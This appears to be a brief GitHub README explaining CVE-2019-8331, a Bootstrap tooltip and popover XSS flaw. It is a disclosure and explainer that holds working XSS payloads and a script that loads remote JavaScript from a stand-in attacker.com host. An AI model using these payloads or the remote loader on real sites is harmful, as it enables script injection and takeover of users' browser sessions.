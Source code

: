 #### [Thai](https://github.com/Thampakon/CVE-2019-8331/blob/main/README.md)
## Explain

**CVE-2019-8331 is a Cross-Site Scripting (XSS) type security vulnerability found in Bootstrap, a JavaScript library widely used in developing websites and mobile applications. This vulnerability occurs because Bootstrap does not properly filter data submitted to the data-template attribute of a tooltip or popover element, allowing an attacker to insert malicious code into web pages.**

**This attack can occur if an attacker can control the data displayed as a tooltip or popover. When a user enables Tooltip or Popover, malicious code is inserted into a web page and may be triggered by the user's browser.**

**This vulnerability has been fixed in Bootstrap versions 4.3.1 and 5.0.0-beta2.**

```
<x data-toggle="tooltip" data-template="<img src=x onerror=alert(1)>">XSS</x>
<x data-toggle="tooltip" data-html="true" title='<script>alert(1)</script>'>XSS</x>
<x data-toggle="tooltip" data-html="true" data-content='<script>alert(1)</script>'>XSS</x>

<script>
  var script = document.createElement("script");
  script.src = "https://attacker.com/malicious.js";
  document.body.appendChild(script);
</script>
```

## Credit
[BlackFan](https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6)

